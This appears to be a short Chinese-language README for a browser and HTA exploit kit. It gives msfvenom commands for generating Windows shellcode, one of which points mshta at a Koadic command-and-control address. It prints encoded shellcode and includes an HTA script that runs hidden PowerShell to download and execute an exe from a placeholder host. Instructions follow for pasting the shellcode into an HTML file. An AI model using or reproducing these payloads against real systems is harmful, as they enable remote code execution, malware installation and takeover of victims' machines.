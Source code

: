 `msfvenom -p windows/exec cmd='mshta koadic 的地址' -f js_le exitfunc=thread -a x86`

`测试payload`

       msfvenom -p windows/exec cmd=calc.exe -f js_le exitfunc=thread -a x86

    %ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u575 2%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u6a5d%u8d01%ub285%u0000%u5000%u3168%u6f8b%uff87%ubbd5%u1de0%u0a2a%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff%u6163%u636c%u652e%u6578%u4100

`hta code`
    
    <script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://xxx.com/xxx.exe\', \'c:/windows/temp/xxx.exe\'); c:/windows/temp/xxx.exe', 0);window.close();
    </script>
    
    
    
    
    生成后打开html文件夹更改166行左右的shellcode位置 填写msf生成的payload   
    自己看着改
    
    
    演示视频地址：https://pan.baidu.com/s/1eTezME-wh7_qNJaveNOyaw 密码：s0kq
